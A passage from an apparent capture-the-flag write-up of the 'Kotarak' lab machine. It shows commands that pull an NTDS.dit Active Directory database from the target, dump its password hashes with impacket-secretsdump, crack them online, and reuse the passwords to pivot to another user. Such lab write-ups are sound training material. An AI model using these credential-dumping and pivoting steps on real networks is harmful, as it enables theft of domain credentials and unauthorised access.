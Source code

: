 > **Attacker Machine**:

```bash
wget http://10.129.1.117:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
wget http://10.129.1.117:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
md5sum 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
md5sum 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

> **Victime Machine**:

```bash
md5sum 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
md5sum 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
# :)
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can also crack all the account password hashes in **[CrackStation](https://crackstation.net/){:target="_blank"}**, but I can only find two matches.

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL > hashes
cat hashes | awk '{print $4}' FS=':' | sed '/^$/d' | grep -v nthash | xclip -sel clip
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the passwords found I test if they are being reused, and unfortunately this bad practice allows me to pivot user, which also belongs to the group **adm**. As the user **tomcat** did not have the necessary permissions to view the contents of the system logs, but as the user **atanas** ( engaged now) I can access all logs and after digging for a while I find a log that leaks the `wget` version of a **Request** that seems to be being made to the target machine, perhaps from another machine on an internal network.
